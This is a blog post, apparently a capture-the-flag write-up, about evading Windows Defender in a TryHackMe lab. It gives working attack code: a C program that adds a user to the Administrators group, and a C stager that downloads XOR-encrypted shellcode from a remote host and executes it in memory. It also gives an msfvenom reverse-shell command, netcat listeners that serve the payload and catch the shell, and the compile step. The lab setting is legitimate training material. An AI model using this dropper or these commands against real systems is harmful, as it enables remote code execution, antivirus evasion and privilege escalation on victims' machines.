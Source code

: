 ```yaml
---
title: "Bypass Windows Defender with a simple custom shellcode"
categories:
  - Shellcode
tags:
  - Bypass AV
---
```



Earlier this week I worked against a TryHackMe room called [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity).

This room is pretty interesting, but I won't write a full writeup, there is already enough of them. Instead I want to focus on the AV evasion.


#### Target

The target is a Windows VM featuring a vulnerable WebApp, leading to user credentials discovery.
Once connected through SSH, internal enumeration reveal that Windows Defender is active.

Long story short, we need to exploit a service and replace its executable with a malicious payload that will be executed as SYSTEM. This payload could initiate a shell, or add our current user to administrators localgroup for example.

To be honest this room doesn't require to put effort on AV evasion because a simple, non-detectable payload is enough, as show below :

```
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}

```
Credits goest to [jaxafed's writeup](https://jaxafed.github.io/posts/tryhackme-hack_smarter_security/)


This works, but I could get a shell as SYSTEM ! Obviously I tried a few metasploit payloads, but they are well known to AV vendors and are instantly flagged as malicious.
I used some learnings from [TryHackMe room on AV evasion](https://tryhackme.com/r/room/avevasionshellcode) and build a C# payload, then packed it with [Confuser](https://github.com/mkaring/ConfuserEx).

Well it worked, but somehow was a bit frustrated, and I wanted to work on C based shellcodes.

I am more familiar with C# and already had a staged shellcode with XOR encryption in this langage, so why not try something similar in C ?


#### Shellcode

So my goal is to build a XOR encrypted payload from metasploit and have a dropper to download said payload, decrypt and execute it from memory. That way, our shellcode won't be wrote on disk for maximum stealth.


Good news is I already have most parts I needed, let's start with network :

```
//IP and port where to fetch our shellcode
int port = 9002;
char ip[] = "10.10.10.10";

//initialize struct
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
struct sockaddr_in serv_addr;
serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(port);
serv_addr.sin_addr.s_addr = inet_addr(ip);

//connect back home
int n = connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr));

//copy our shellcode into buffer
unsigned char buffer[BUFFER_SIZE];
n = recv(sockfd, buffer, BUFFER_SIZE, 0);
```

```
//de-Xor shellcode
char key[] = "MyShellcodePassword";
unsigned char shellcode[n];

for (int i = 0; i < n; i++)
    shellcode[i] = buffer[i] ^ key[i % strlen(key)];

//copy shellcode in memory and execute it
void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcode, sizeof shellcode);
((void(*)())exec)();
```

And that's about it ! I snipped small parts, full code is [here](/assets/images/post-20240426/stager.c).
Don't forget to browse my [shellcode repos](https://github.com/20100dbg/shellcodes).
Now we need to generate a reverse shell payload, let's use msfvenom :

```
//create a reverse shell payload. Our shellcode is XOR encrypted with "MyShellcodePassword" as key, result is in a file called 'shellcode'
msfvenom -p windows/shell_reverse_tcp lhost=10.10.10.10 lport=9001 --encrypt xor --encrypt-key MyShellcodePassword -f raw -o shellcode

//this listener will serve our shellcode
nc -lvnp 9002 < shellcode

//this listener will catch our reverse shell
nc -lvnp 9001
```

#### The end ?

This should work fine. But if you remember correctly, we are exploiting a vulnerable *service*. A service executable needs specific functions that can be called by Service manager.

Once again I'm in luck because I got a service template from [Windows Privesc Arena's room](https://tryhackme.com/r/room/windowsprivescarena)

We only have to paste our dropper in Run() function and that's it.

Let's compile :
```
mingw32-gcc.exe .\stager.c -lwsock32
```

And here's the result :

![Got root ?](/assets/images/post-20240426/01_win.png)
